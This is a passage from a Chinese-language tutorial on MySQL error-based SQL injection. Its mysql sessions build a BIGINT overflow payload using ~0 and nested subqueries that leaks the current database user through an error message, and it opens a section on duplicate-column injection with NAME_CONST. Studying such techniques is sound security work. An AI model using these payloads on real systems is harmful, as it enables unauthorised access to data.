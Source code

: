我们也可以对`0`按位取反，快速得到最大值：

```sql
mysql> select ~0;
+----------------------+
| ~0                   |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec)

mysql> select ~0 + 1;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + 1)'
```

我们知道，如果一个`SELECT`子句执行成功，那么它的返回值可以视为`0`：

```sql
mysql> select (select user());
+-----------------+
| (select user()) |
+-----------------+
| root@localhost  |
+-----------------+
1 row in set (0.00 sec)

mysql> select !(select user()); # 一次取反
+------------------+
| !(select user()) |
+------------------+
|                1 |
+------------------+
1 row in set (0.00 sec)

mysql> select !(select !(select user())); # 二次取反
+----------------------------+
| !(select !(select user())) |
+----------------------------+
|                          0 |
+----------------------------+
1 row in set (0.00 sec)
```

最终构建payload：

```sql
mysql> select (select(!x-~0)from(select(select user())x)a); # x与a均省略AS关键字
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'
```

### §3.1.4 列名重复注入

我们知道，一个表（`Table`）不允许包含两个名称相同的字段，但是一个子查询（`Subquery`）是可以的。如果我们把子查询看作一个表，作为`FROM`子句的参数，那么就会导致错误。这里我们使用`NAME_CONST(name,value)`函数创建临时列：
